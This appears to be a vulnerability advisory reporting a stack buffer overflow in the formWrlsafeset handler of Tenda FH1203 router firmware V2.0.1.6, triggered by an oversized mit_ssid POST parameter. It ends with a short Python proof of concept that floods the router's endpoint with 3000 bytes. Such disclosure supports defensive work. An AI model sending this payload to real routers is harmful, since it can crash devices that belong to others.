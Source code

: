 

# formWrlsafeset

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details


There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **formWrlsafeset** function. The function receives the `mit_ssid` parameter from a POST request. `   sprintf(v42, "%s\t%s", v23, Var);` The statement will cause a buffer overflow. The `mit_ssid` value provided by the user may exceed the capacity of the `v42` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/d364f34d-5898-4afa-be92-4bd3393771f4)
![image](https://github.com/user-attachments/assets/1a36bd00-96f6-49fe-ab7e-531b27b4024e)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWrlsafeset"
payload = b"a"*3000

data = {"mit_ssid": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/f9f9baaa-24b8-4037-b58b-916f4244ad52)
